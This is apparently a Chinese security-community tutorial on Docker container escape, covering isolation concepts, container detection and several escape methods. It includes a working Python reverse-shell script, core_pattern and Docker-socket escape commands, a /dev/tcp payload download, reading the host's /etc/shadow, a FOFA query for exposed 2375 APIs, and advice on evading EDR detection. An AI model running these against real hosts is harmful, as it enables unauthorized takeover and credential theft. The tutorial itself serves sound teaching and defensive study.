




# 奇安信攻防社区-Docker容器逃逸

### Docker容器逃逸

作者:凝 前言: 我认为docker容器逃逸也算是提权的一种手法,要更好的理解容器逃逸的手法，应该知道从本质上看容器内的进程只是一个受限的普通 Linux 进程,而容器逃逸的过程我们完全可以将其理解...

作者:凝

前言:

我认为docker容器逃逸也算是提权的一种手法,要更好的理解容器逃逸的手法，应该知道从本质上看容器内的进程只是一个受限的普通 Linux 进程,而容器逃逸的过程我们完全可以将其理解为在一个受限进程中进行一些操作来获取未受限的完整权限,或者是在原本受 Cgroup/Namespace 限制权限的进程获取更多权限,当清晰的理解了这一点,接下来的容器逃逸学习将会易如反掌

## 容器逃逸环境搭建

作者这里选择的是Ubuntu-18.04和Ubuntu22.04,推荐使用Ubuntu18.04

首先安装docker

```php
curl -fsSL https://get.docker.com/ | sh
```

```php
docker run ubuntu echo "welcome"   //判断是否有welcome输出
```

2、安装 Docker-Compose

```php
sudo curl -L "https://github.com/docker/compose/releases/download/1.23.2/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
sudo chmod +x /usr/local/bin/docker-compose
docker-compose --version   //判断是否有版本信息
```

[#](https://wiki.teamssix.com/cloudnative/docker/docker-use-notes.html#_3%E3%80%81docker-%E8%AE%BE%E7%BD%AE%E5%9B%BD%E5%86%85%E9%95%9C%E5%83%8F%E6%BA%90)3、Docker 设置国内镜像源

```php
vi /etc/docker/daemon.json

{
    "registry-mirrors": ["http://hub-mirror.c.163.com"]
}
```

重启服务

```php
systemctl restart docker.service
```

## Linux内核安全机制

我们前面提到了容器逃逸的实质是从Cgroup/Namespace 限制权限的进程获取更多权限,因此我们就不得不提到这些名词概念

### Namespace-->内核命名空间

Linux的namespace是一种内核特性，可以将系统资源进行隔离，每个隔离的部分被称为一个namespace。通过使用namespace，可以将不同进程之间的资源进行隔离，使得它们感觉像是在独立的环境中运行

用简洁明了的话来说,**namespace实现了容器与容器,容器与宿主机之间的隔离**

\*\*而业内广为人知的\*\*\*\*privileged特权逃逸的本质也是因为特权环境打破了容器与宿主机直接的隔离实现了容器逃逸\*\*

**我们可以详细看一下namespace的几种类型:**

1.  PID namespace：使得每个进程都有一个独立的进程ID，进程只能看到相同namespace下的其他进程。
2.  User namespace：使得不同namespace下的进程可以有不同的用户和用户组ID，进程只能对相同namespace下的用户进行权限管理。
3.  Mount namespace：使得每个namespace可以有独立的挂载点和文件系统层次结构，进程只能看到相同namespace下的文件系统。
4.  Network namespace：使得每个namespace有独立的网络设备、IP地址、端口等网络资源，进程只能访问相同namespace下的网络资源。
5.  UTS namespace：使得每个namespace有独立的主机名和域名，进程只能访问相同namespace下的主机名和域名。

通过使用这些namespace，可以在不同的进程之间实现资源的隔离，提高系统的安全性和稳定性。

### Cgroups-->控制组

Cgroups本质上是在内核中附加的一系列钩子（hook），当程序运行时，内核会根据程序对资源的请求触发相应的钩子，以达到资源追踪和限制的目的。在Linux系统中，Cgroups对于系统资源的管理和控制非常重要，可以帮助管理员更加精细化地控制资源的分配和使用

Cgroups主要实现了对容器资源的分配,限制和管理

### Capabilities

Capabilities是Linux一种安全机制,在linux内核2.2之后引入,用于对权限更细致的控制

而容器社区一直在努力将纵深防护,最小权限等理念和原则落地

## 单容器环境内的信息收集

当我们拿到了一个shell,首先要判断的是当前环境是否为容器环境

### 查询cgroup信息

```php
cat /proc/1/cgroup
```

什么是/proc/1/cgroup?

/proc/1/cgroup文件记录了进程的控制组 (cgroup) 信息。

在 Linux 系统中，当在容器中运行进程时，每个进程会被分配到一个或多个 cgroup 中，cgroup 可以对进程的资源使用进行控制和限制。  
**从 CGroup 信息中，不仅可以判断我们是否在容器内，也能很方便判断出当前的容器是否在 Kubernetes 的编排环境中**


没使用 Kubernetes 的 docker 容器，其 cgroup 信息长这样

```php
5:hugetlb:/docker/f904ce4cc3834023f7e074ed582957859450e85c083f1c9922390d39126058e9
```

而 Kubernetes 默认的，长这样：

```php
12:hugetlb:/kubepods/burstable/pod45226403-64fe-428d-a419-1cc1863c9148
/e8fb379159f2836dbf990915511a398a0c6f7be1203e60135f1cbdc31b97c197
```


因此,我们可以稍微修改一下上述的语句

```php
cat /proc/1/cgroup | grep -qi docker && echo "In Docker" || echo "Not Docker"
```

我们通过判断**cat /proc/1/cgroup**的输出内容是否有docker来判断是否是容器内的环境

容器环境下:


非容器环境下:


### 检查/.dockerenv文件

什么是\*\*.dockerenv\*\*文件?

.dockerenv文件是Docker守护进程的配置文件，它包含了Docker守护进程的运行参数和配置信息。这个文件通常用于配置Docker守护进程的行为，例如容器的网络设置、存储驱动、卷管理等。.dockerenv文件是一个文本文件，其中包含了一些环境变量，这些环境变量描述了Docker守护进程的状态和配置。这个文件通常由Docker守护进程的配置脚本生成，并保存在Docker守护进程的数据目录中。

简单来说,我们可以通过判断该文件是否存在来判断当前是否属于容器环境

```php
ls -alh / |grep .dockerenv
```

很容易判断下图环境属于容器内环境


**值得注意的是: 如果你的shell权限过小的话(www-data、或是某一服务的用户)，根目录下也是不存在.dockerenv文件的**

### 查看硬盘信息

容器输出为空，非容器有内容输出。

**值得注意的是:Privileged 特权模式下是可以查看到内容的**

```php
fdisk -l
```

容器内环境:


非容器内环境:


我们可以通过上述方法快速判断当前的一个shell是否在容器环境内

而当我们成功的判断了当前环境是一个docker容器的环境,我们便要尝试容器逃逸

## Docker配置不当导致的容器逃逸

这里我们再次提到NameSpace和cgroups

```php
Linux 命名空间（NameSpace）：实现文件系统、网络、进程、主机名等方面的隔离
Linux 控制组（cgroups）：实现 CPU、内存、硬盘等方面的隔离
```

如果设定了以下配置就会导致相应的隔离机制失效：

其实原理很简单,就是通过权限的变更打破了原来的文件系统、网络、进程、主机名等方面的隔离

```php
--privileged：使容器内的 root 权限和宿主机上的 root 权限一致，权限隔离被打破

--net=host：使容器与宿主机处于同一网络命名空间，网络隔离被打破

--pid=host：使容器与宿主机处于同一进程命令空间，进程隔离被打破

--volume /:/host：宿主机根目录被挂载到容器内部，文件系统隔离被打破
```

### Priviliged 特权模式容器逃逸

这里笔者的环境是Ubuntu22.04的版本进行复现

docker run -it -v /proc/sys/kernel/core\_pattern:/host/proc/sys/kernel/core\_pattern ubuntu

privileged 特权容器可以说是业界最常见以及最广为人知的逃逸手法

privileged 特权容器的权限其实有很多，所以也有很多不同的逃逸方式，挂载设备读写宿主机文件是特权容器最常见的逃逸方式之一

如何判断当前容器是以Privileged 特权模式启动的呢?

这里提供两种方式

我们可以使用 fdisk -l 查看宿主机的磁盘设备

而如果不在 privileged 容器内部，是没有权限查看磁盘列表并操作挂载的

```php
fdisk -l
```

特权模式下:


而非特权模式下:


除此之外我们可以通过

```php
cat /proc/self/status | grep CapEff
```

来判断容器是不是特权模式，如果是以特权模式启动的话，CapEff 对应的掩码值应该为0000003fffffffff 或者是 0000001fffffffff

特权模式下:


非特权模式下:


那么重点来了,如何逃逸?

环境搭建

```php
docker run --rm --privileged=true -it alpine
```

进入容器后我们判断当前的特权

无论是**fdisk -l** 还是 **cat /proc/self/status | grep CapEff**

**都很容易看出当前是特权模式**


这里我们尝试使用文件挂载进行逃逸

**何为挂载?**

挂载（Mount）是将一个文件系统（通常是存储设备上的文件系统）连接到操作系统的目录树中的过程。挂载将某个文件系统与一个目录关联起来，使得该目录成为文件系统的访问点。通过挂载，文件系统中的文件和目录可以被读取和写入，就好像它们是操作系统上本地的文件一样。

```php
mkdir /test && mount /dev/sda1 /test
```

我们来解读一下上面的命令

1.`mkdir /test` - 这部分命令使用mkdir（make directory）指令在根目录（/）下创建一个名为test的新文件夹。即创建一个名为test的目录。

2.  `mount /dev/sda1 /test` - 这部分命令使用mount指令将/dev/sda1文件系统挂载到之前创建的test目录上。/dev/sda1通常是硬盘分区的设备名称，而/test则是挂载点，指示将该文件系统挂载到此目录。

综合起来，命令`mkdir /test && mount /dev/sda1 /test`创建了一个名为test的目录，并将/dev/sda1文件系统挂载到该目录中。这意味着该文件系统中的文件和文件夹将出现在/test目录中，可以通过/test目录访问和操作这些文件。

然后我们再通过cat 去查看etc/shadow就可以成功看到宿主机的内容了

```php
cat /test/etc/shadow
```


于此同时我们也可以切换到/test目录下,去做更多有价值的事情

例如操作宿主机的 crontab config file, /root/.ssh/authorized\_keys, /root/.bashrc 等文件，而达到逃逸的目的


值得一提的是

从对抗的层面上，不建议将逃逸的行为当成可以写入宿主机特定文件 (如 /etc/cron\*, /root/.ssh/authorized\_keys 等文件) 的行为，应该根据目标选择更趋近与业务行为的手法，容器逃逸的利用手段会比大部分情况下的命令执行漏洞利用要灵活。

以目标 “获取宿主机上的配置文件” 为例，以下几种逃逸手法在容易在防御团队中暴露的概率从大到小，排序如下(部分典型手法举例，不同的 EDR 情况不同)：

1.  mount /etc + write crontab
2.  mount /root/.ssh + write authorized\_keys
3.  old CVE/vulnerability exploit
4.  write cgroup notify\_on\_release
5.  write procfs core\_pattern
6.  volumeMounts: / + chroot
7.  remount and rewrite cgroup
8.  websocket/sock shell + volumeMounts: /path

### 挂载宿主机 procfs 逃逸

**我们常说挂载宿主机 procfs 逃逸,其本质上因为宿主机挂载了procfs,导致我们可以像宿主机内写入一段恶意的payload,比如反弹shell,然后利用代码制造崩溃,触发内存转储,就会执行我们恶意的payload**

**什么是procfs**

procfs是一个伪文件系统，它动态反映着系统内进程及其他组件的状态，其中有许多十分敏感重要的文件。因此，将宿主机的procfs挂载到不受控的容器中也是十分危险的，尤其是在该容器内默认启用root权限，且没有开启User Namespace时。

**什么是core\_pattern文件?**

core\_pattern（核心转储模式）是Linux系统中的一个配置参数，用于定义在程序崩溃时生成核心转储文件的方式和位置。当一个程序发生崩溃（如段错误）时，操作系统会生成一个包含程序崩溃状态的核心转储文件，以便进行调试和故障排除

接下里就很好理解了,如果宿主机中的 procfs 挂载到容器中,我们就可以进行容器逃逸了

复现环境

```php
docker run -it -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern ubuntu
```

**如果返回了两个 core\_pattern 文件，那么很可能就是挂载了宿主机的 procfs**

这也是挂载procfs可以逃逸的核心点了

```php
find / -name core_pattern
```


接下来我们需要找到docker在当前宿主机的绝对路径

```php
cat /proc/mounts | xargs -d ',' -n 1 | grep workdir
```


可以看出,当前的绝对路径为-->去除work换成merged

/var/lib/docker/overlay2/a96c15fc172fbec0b7251a44e21408746afa9e9571202132618ed251db3a84a4/merged

接下来我们需要准备一个**反弹shell的脚本**以及一个可以**制造崩溃,触发内存转储的代码**

抽丝剥茧,我们先来准备一个反弹shell的脚本

```php
vim /tmp/.ning.py
```

```php
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "172.17.0.1"
lport = 4445
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   # os.remove('/tmp/.ning.py')
   s.close()
if __name__ == "__main__":
   main()
```


接下来赋权并且将该脚本写到目标的 proc 目录下


```php
echo -e "|/var/lib/docker/overlay2/
a96c15fc172fbec0b7251a44e21408746afa9e9571202132618ed251db3a84a4/merged/tmp/.ning.py
\rcore " >  /host/proc/sys/kernel/core_pattern
```

然后我们使用c写一个可以触发崩溃的程序

```php
vim ning.c
#include<stdio.h>
int main(void)  {
   int *a  = NULL;
   *a = 1;
   return 0;
}
gcc ning.c -o ning
chmod 777 ning
```

紧接着我们在攻击机上起监听


于此同时,我们在容器内运行该程序

```php
./ning
```


成功反弹shell

### 挂载 Docker Socket 逃逸

什么是Docker Socket?

Docker Socket（也称为Docker API Socket）是Docker引擎的UNIX套接字文件，**用于与Docker守护进程（Docker daemon）进行通信**。Docker守护进程是Docker引擎的核心组件，负责管理和执行容器。Docker Socket允许用户通过基于RESTful API的请求与Docker守护进程进行通信，以便执行各种操作，例如创建、运行和停止容器，构建和推送镜像，查看和管理容器的日志等。

简而言之:当容器启动时以挂载Docker Socket的方式启动时,我们就可以尝试逃逸

环境复现:

```php
docker run -itd --name docker_sock -v /var/run/docker.sock:/var/run/docker.sock ubuntu
```

1.判断当前容器是否挂载Docker Socket,如果存在文件则说明Docker Socket被挂载

```php
ls -lah /var/run/docker.sock
```


如何逃逸?

我们可以在容器内部创建一个新的容器，因为Docker Socket被挂载到了当前容器,所有我们可以将宿主机目录挂载到新的容器内部

**即在容器内创建一个挂载了宿主机根目录的容器,然后将目录切换到根目录即可完成逃逸**

我们在当前容器内部安装docker命令行

```php
docker exec -it docker_sock /bin/bash
apt-get update
apt-get install curl
curl -fsSL https://get.docker.com/ | sh
```

接下来的逃逸就十分简单了,我们只需要在容器内部启动一个挂载宿主机根目录的容器即可

```php
docker run -it -v /:/ning ubuntu /bin/bash
```

可以看到我们的id值发生变化,说明我们已经进入了一个新的容器内部


这里我们切换根目录

```php
chroot /ning
```


查看etc/passwd


可以看到我们已经拿到了宿主机的权限

## 容器漏洞-CVE-2020-15257

我们之前说过--net=host：使容器与宿主机处于同一网络命名空间，网络隔离被打破,该cve的核心就是如此

漏洞环境搭建

```php
./metarget cnv install cve-2020-15257
```

启动漏洞环境

```php
docker run -it --net=host --name=15257 ubuntu /bin/bash
```

判断是否使用host模式

```php
cat /proc/net/unix | grep 'containerd-shim'
```

有结果则说明当前容器启用了host模式


接下来我们使用大名鼎鼎的CDK

[https://github.com/cdk-team/CDK/wiki/CDK-Home-CN](https://github.com/cdk-team/CDK/wiki/CDK-Home-CN)

如何将CDK上传到容器内部?

1.webshell下直接上传

2.非webshell下的出网环境

```php
#vps上面开启nc
nc -lvp 999 <cdk

#容器内写入
cat < /dev/tcp/[vps-ip]/[vps-port] >cdk

#反弹宿主机shell
chmod a+X cdk
./cdk run shim-pwn reverse [ip] [port]
```

vps上面开启nc


反弹宿主机shell




## Docker 远程 API 未授权访问逃逸

docker的2375端口是干啥的?

Docker的2375端口主要用于Docker守护进程的监听和通信。它主要用于Docker容器的网络连接和通信，包括容器的启动、停止、删除等操作。该端口可以被Docker守护进程用于接收来自客户端的请求，并与其进行交互和通信。需要注意的是，使用该端口需要确保防火墙设置正确，以避免潜在的安全风险。

在早期的版本安装Docker是会默认将2375端口对外开放,目前改为默认只允许本地访问

如何开启远程访问

```php
vim /lib/systemd/system/docker.service
ExecStart=/usr/bin/dockerd -H fd:// -H tcp://0.0.0.0:2375 
--containerd=/run/containerd/containerd.sock
```

如何检测2375端口存在未授权?

这里推荐两种方式

```php
1.
curl http://192.168.110.124:2375/info
docker -H tcp://192.168.110.124:2375 info
2.
IP=`hostname -i | awk -F. '{print $1 "." $2 "." $3 ".1"}' ` && wget http://$IP:2375
```

我们主要来分析一下第二种

```php
IP=`hostname -i | awk -F. '{print $1 "." $2 "." $3 ".1"}' ` && wget http://180.184.196.45:2375
```

1.  `hostname -i`：这是一个用于获取本地主机IP地址的命令。它将返回主机的IP地址。
2.  `awk -F. '{print $1 "." $2 "." $3 ".1"}'`：这是一个基于awk命令的处理器，用于从IP地址中提取前三个字段，并将第四个字段设置为1，从而创建一个新的IP地址。例如，如果IP地址是`192.168.0.10`，这个处理程序将将其转换为`192.168.0.1`。
3.  `IP=`hostname -i | awk -F. '{print $1 "." $2 "." $3 ".1"}' `：这个命令将获取到的IP地址存储在一个名为`IP\`的变量中。
4.  `wget http://$IP:2375`：这个命令使用`wget`工具向指定的IP地址和端口发送HTTP请求。具体来说，它尝试连接到Docker守护进程的REST API端点，通常默认使用端口2375。通过这个命令，可以从本地主机访问Docker守护进程，执行相关操作。

总的来说,这段命令的作用是获取本地主机的IP地址，并通过IP地址和端口号连接到Docker守护进程

我们可以通过fofa语法索引

```php
port="2375" && country="CN" && "Docker"
```



我们使用第一种方式:



或者使用wget,这里一般有两种情况,如果结果为404,则说明漏洞存在




环境搭建

将 docker 守护进程监听在 0.0.0.0

```php
dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375
```


能做什么?

列出容器信息

```php
curl http://<target>:2375/containers/json
```

查看容器

```php
docker -H tcp://<target>:2375 ps -a
```

如何逃逸?  
这里介绍两种方法--其本质都是创建一个拥有特权并且挂载宿主机/目录的容器

1.新运行一个容器，挂载点设置为服务器的根目录挂载至/mnt目录下。

```php
docker -H tcp://127.0.0.1:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

接下来的操作就十分简单了,这里不多赘述,我们可以写计划任务,公私钥等等


2.这里直接上操作

```php
#连接2375端口
export DOCKER_HOST="tcp://127.0.0.1:2375"
#创建挂载宿主机根目录的容器
docker run --rm -it --privileged -net=host -v /: /tmp/docker alpine
cd /tmp/docker
#通过chroot 切换bash
chroot ./ bash
```

其实和第一种方法差别不大,无非是使用了export进行连接

值得一提的是:我们还可以关注2376端口

2375端口-->未加密

2376端口-->加密通讯

## Docker用户组特性导致的权限提升

我们都知道Docker 需要 root 权限才能跑起来,其运行的所有命令都是需要 sudo 来运行，。而Docker 监护进程有一个特性，它能被允许访问 root 用户或者是在 docker 组里面的所有用户，这就如同拥有 root 的访问权限

简而言之,如果我们拿到了一个docker组内用户的权限,就可以提升到root权限

这是因为Docker 守护进程会允许 root 用户和 docker组用户访问 Docker，给用户提供 Docker 权限和给用户无需认证便可以随便获取的 root 权限差别不大

环境搭建:创建一个普通用户并且进入docker组

```php
adduser dockeruser
usermod -G docker dockeruser
newgrp docker
su dockeruser
```


接下来我们以dockeruser的身份启动一个容器-->一个挂载了宿主机根目录的容器

```php
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```


## Docker内部的横向移动

大多数的容器内部命令都是被阉割的,可能ping,ifconfig等命令都无法使用,如果是出网情况下我们可以在线安装

这里推荐一款工具-->busybox

busybox是静态编译的,其不依赖与系统的动态链接库,集成了三百多个linux常用命令,我们可以通过将busybox上传到容器内部就可以使用大部分的linux命令

下载地址:[https://www.busybox.net/downloads/binaries/1.30.0-i686/busybox](https://www.busybox.net/downloads/binaries/1.30.0-i686/busybox)

而像传统的内网渗透工具如 fscan kscan等均可在容器内部使用

关于Docker容器逃逸的内容就写到这了,同时推荐一个项目:

[https://github.com/RuoJi6/cloud-security](https://github.com/RuoJi6/cloud-security)

后期会在上面写更多的东西,我们下期再见
